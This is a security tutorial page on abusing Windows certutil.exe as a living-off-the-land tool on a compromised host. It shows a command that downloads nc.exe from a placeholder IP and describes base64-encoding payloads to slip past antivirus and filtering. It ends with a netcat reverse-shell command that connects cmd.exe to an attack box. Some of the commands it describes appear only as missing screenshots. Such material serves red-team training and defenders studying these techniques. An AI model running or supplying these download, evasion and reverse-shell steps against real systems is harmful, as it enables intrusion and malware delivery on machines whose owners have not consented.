

Cyber Security
Cyber Security
Certutil.exe¶
Certutil¶
CertUtil.exe is installed as part of Certificate Services and can be used to manage certificates in Windows.
With certutil you can perform various function related to certificates and certificate stores, such as displaying certification authority (CA) configuration information, configure Certificate Services, backup and restore CA components, and verify certificates, key pairs, and certificate chains.
Important
Certutil is also known as a Living Off Land (LOL) binary which is a trusted, pre-installed system tool with ‘extra’ unexpected functionality, such as downloading files. An interesting feature of certutil is the option to download a remote certificate from a remote URL and save it to the local file system. While this feature is intended to download certificate files, it can also be used to download non-certificate files with one simple command, including scripts and executables.
It should not come as a surprise that this feature is heavily utilized in campaigns to download malware which can even bypass security programs and monitoring by base64 encoding the malicious file and decoding it after it has been downloaded to the system.
Note
Transferring file with certutil.exe
1 certutil -urlcache -split -f [URL] [Filename.Extension]
Options explained
-URLcache: Displays or deletes URL cache entries.
-f: Forces fetching a specific URL and updating the cache.
-split: Split embedded ASN.1 elements, and save to files on disk.
Note
exemple
an example where we download a file called nc.exe
1 certutil -urlcache -split -f http://[IP] nc.exe
{kind=link}
The certutil program confirms that the command completed successfully.
Base64-encoded payloads¶
Another nice feature of CertUtil.exe that may help to bypass security controls is the option to decode Base64-encoded files to the file system.
Using the -decode option, we can download a Base64-encoded malicious executable as text file and decode the executable to disk. This may help in effectively bypassing security controls such as antivirus, edge devices and filtering.
Let us demonstrate this with an example where we have a Base64-encoded text file of the nc.exe executable, transfer it to the compromised Windows host, decode it back to an executable and finally execute it for a reverse shell.
{kind=link}
First, we need to Base64-encode the Netcat executable. The command to Base64-encode files with CertUtil.exe.
Encode the payload to Base64
The output of this command is a text file that contains the Base64-encoded nc.exe binary. This text file can be transferred to the comprised target where it will be decoded back to a binary on disk.
To verify that the nc.txt file contains text, we can run the following command to print the first 10 lines to the terminal:
Transfert the file to the target
The next step is to transfer the text file to the target and decode it back to an executable.
Note
Decode the Base64 file from the compromise target
As we can see on the screenshots, the nc.txt file was successfully downloaded to the target host and decoded to disk with the last command.
Exploit or virifying Netcat is working
To verify that we got a working version of Netcat, we can execute this binary to connect back to our attack box.
Note
Execute the following command on the Windows compromised host to initiate the reverse shell to the attack box and connect the cmd.exe program to the shell:
1 nc.exe [Attack box IP] 5555 -e cmd.exe
{kind=link}
{kind=link}
{kind=link}
{kind=link}